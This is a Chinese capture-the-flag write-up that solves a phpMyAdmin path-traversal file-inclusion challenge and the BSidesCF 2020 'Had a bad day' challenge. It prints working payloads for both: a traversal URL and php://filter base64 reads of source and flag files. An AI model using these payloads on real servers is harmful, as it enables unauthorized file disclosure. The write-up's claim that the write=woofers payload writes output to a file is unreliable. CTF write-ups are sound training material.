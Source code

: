按漏洞说明大胆尝试
```txt
http://xxx/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../flag
```
一步到位。

----
### 2 


<a href=https://blog.csdn.net/SopRomeo/article/details/105536972>参考一下</a>
<a href=https://blog.csdn.net/m0_47418965/article/details/121708917>phpmyadmin漏洞</a>

-------
-------

## [BSidesCF 2020]Had a bad day 1

>以为是SQLor xss结果是php://filter


### 1 
尝试`?category=xxx`SQL injection语句之后，均出现`xxx.php`不存在的报错信息。都不需要进行爆破了。（需要知道一下源码来理解这种文件后缀名的限制）
所以转向在极客大挑战2019secret file 1里面提到过的`filter`伪协议。

### 2 

所以构建payload`?category=php://filter/convert.base64-encode/resource=index`进行test，然后就会发现一片白茫茫。据solution之言，`"woofers" / "index" / "meowers"`这些被过滤了。
官方solution`?category=php://filter/convert.base64-encode/write=woofers/resource=flag`，额外添加了一个`write=woofers`（替换成meowers也行）。


- `?category=php://filter/convert.base64-encode/resource=flag` 主要是用于读取指定路径下的文件（在本例中，指定路径是 flag），并将其进行 Base64 编码后输出。相当于使用 PHP 的 file_get_contents() 函数读取文件内容，并使用 base64_encode() 函数对其进行编码。

- `payload ?category=php://filter/convert.base64-encode/write=woofers/resource=flag` 则是用于读取指定路径下的文件（同样是 flag），并将其内容进行 Base64 编码后写入到另一个文件 woofers 中。相当于使用 PHP 的 file_get_contents() 函数读取文件内容，并使用 base64_encode() 函数对其进行编码，然后使用 file_put_contents() 函数将编码后的内容写入到指定文件中。

- 这两个 payload 的最大区别在于一个是读取指定文件的内容，一个是将指定文件的内容进行编码后写入到另一个文件中。需要根据实际需求来使用适当的操作。
  
### 3 


再输入payload之后，界面回显了warning和一连串的乱码：
```txt
Warning: include(): unable to locate filiter "woofers" in/var/www/html/index.php on line 37

Warning: include(): Unable to create filiter (woofers) in /var/www/html/index.php on line 37

PCEIL....(一串乱码)
```

解释为：
- 如果无法写入 woofers 文件，那么 PHP 脚本将不会执行 file_put_contents() 函数，也就不可能将编码后的文件内容写入到 woofers 文件中。
- 因此，这时候只有将文件内容直接输出（即回显）。也就是可以看到的下面一排base64编码后的“乱码”。
